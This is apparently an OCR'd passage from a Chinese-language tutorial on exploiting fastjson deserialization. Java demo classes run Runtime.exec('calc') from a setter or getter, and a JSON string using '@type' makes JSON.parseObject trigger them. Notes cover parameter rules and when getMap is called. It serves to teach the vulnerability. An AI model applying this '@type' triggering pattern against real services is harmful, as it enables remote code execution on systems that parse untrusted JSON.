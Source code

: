 ```java
public Map<String, Object> getFieldValuesMap(Object object) throws Exception {
    Map<String, Object> map = new LinkedHashMap<String, Object>(sortedGetters.length);
    
    for (FieldSerializer getter : sortedGetters) {
        map.put(getter.fieldInfo.name, getter.getPropertyValue(object));
    }
    
    return map;
}
```

# 利用

下面弹个计算器试试

一、**注意类里面都没有定义map这个属性，但是因为fastjson是按set和get等方法寻找属性的，所以并不影响。**

**要注意setMap中参数必须为1，否则fastjson会报错**

```java
public class Test {
    public void setMap(String map) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
public class JSONTest {
    public static void main(String[] args) throws Exception {
        String s = "{\"@type\":\"Test\",\"map\":\"aaaa\"}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
    }
}
```

二、**get方法注意不能有参数**

```java
public class Test {
        public Map getMap() throws IOException { //如果返回类型改为int的话，需要在JSON语句中加入map的赋值，否则不会执行get方法。这样做程序可以在toJSON中执行get方法
            Runtime.getRuntime().exec("calc");
            return new HashMap();
        }
}
```

```java
public class JSONTest {
    public static void main(String[] args) throws Exception {
        String s = "{\"@type\":\"Test\"}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
    }
}
```

如果getMap返回类型是Map，而且JSON中还给map赋值了。那么会运行两次getMap（我的Test类里面没有setMap方法）

第一次是在形成反序列化器时

第二次是在toJSON中。